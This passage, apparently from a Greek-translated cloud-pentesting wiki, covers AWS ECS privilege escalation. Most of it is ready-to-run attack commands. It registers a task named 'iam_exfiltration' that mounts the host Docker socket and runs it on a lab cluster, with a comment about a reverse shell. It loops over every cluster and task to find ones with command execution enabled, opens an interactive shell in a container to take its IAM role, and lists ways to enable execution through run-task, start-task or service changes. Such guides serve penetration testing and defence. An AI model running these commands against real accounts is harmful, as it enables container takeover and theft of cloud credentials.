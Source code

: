 ```bash
"host": {
"sourcePath": "/var/run/docker.sock"
}
}
]' > /tmp/volumes.json


aws ecs register-task-definition --family iam_exfiltration \
--cpu 256 --memory 512 \
--requires-compatibilities '["EC2"]' \
--container-definitions file:///tmp/task.json \
--volumes file:///tmp/volumes.json


aws ecs run-task --task-definition iam_exfiltration \
--cluster arn:aws:ecs:us-east-1:947247140022:cluster/ecs-takeover-ecs_takeover_cgidc6fgpq6rpg-cluster \
--launch-type EC2

# You will need to do 'apt update' and 'apt install docker.io' to install docker in the rev shell
```
### `ecs:ExecuteCommand`, `ecs:DescribeTasks,`**`(ecs:RunTask|ecs:StartTask|ecs:UpdateService|ecs:CreateService)`**

Ένας attacker με τα **`ecs:ExecuteCommand`, `ecs:DescribeTasks`** μπορεί να **εκτελέσει εντολές** μέσα σε ένα τρέχον container και να εξάγει το IAM role που είναι συνημμένο σε αυτό (χρειάζεστε τα describe permissions γιατί είναι απαραίτητα για να τρέξετε `aws ecs execute-command`).\
Ωστόσο, για να γίνει αυτό, το container instance πρέπει να τρέχει το **ExecuteCommand agent** (το οποίο εξ ορισμού δεν τρέχει).

Therefore, the attacker could try to:

- **Try to run a command** in every running container
```bash
# List enableExecuteCommand on each task
for cluster in $(aws ecs list-clusters | jq .clusterArns | grep '"' | cut -d '"' -f2); do
echo "Cluster $cluster"
for task in $(aws ecs list-tasks --cluster "$cluster" | jq .taskArns | grep '"' | cut -d '"' -f2); do
echo "  Task $task"
# If true, it's your lucky day
aws ecs describe-tasks --cluster "$cluster" --tasks "$task" | grep enableExecuteCommand
done
done

# Execute a shell in a container
aws ecs execute-command --interactive \
--command "sh" \
--cluster "$CLUSTER_ARN" \
--task "$TASK_ARN"
```
- Αν έχει **`ecs:RunTask`**, τρέξτε ένα task με `aws ecs run-task --enable-execute-command [...]`
- Αν έχει **`ecs:StartTask`**, τρέξτε ένα task με `aws ecs start-task --enable-execute-command [...]`
- Αν έχει **`ecs:CreateService`**, δημιουργήστε μια service με `aws ecs create-service --enable-execute-command [...]`
- Αν έχει **`ecs:UpdateService`**, ενημερώστε μια service με `aws ecs update-service --enable-execute-command [...]`
